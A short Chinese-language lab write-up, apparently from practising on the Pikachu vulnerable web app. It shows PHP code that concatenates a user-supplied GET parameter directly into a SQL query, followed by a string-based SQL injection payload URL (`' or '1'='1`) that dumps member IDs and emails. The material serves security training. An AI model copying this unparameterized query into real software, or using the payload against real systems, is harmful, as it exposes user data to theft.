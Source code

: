 **服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

构造 payload

`http://<IP address!!!>/pikachu/vul/sqli/sqli_str.php?name=1' or '1' ='1&submit=%E6%9F%A5%E8%AF%A2`

![image](../../../../assets/img/安全/实验/Misc/pikachu/28.png)
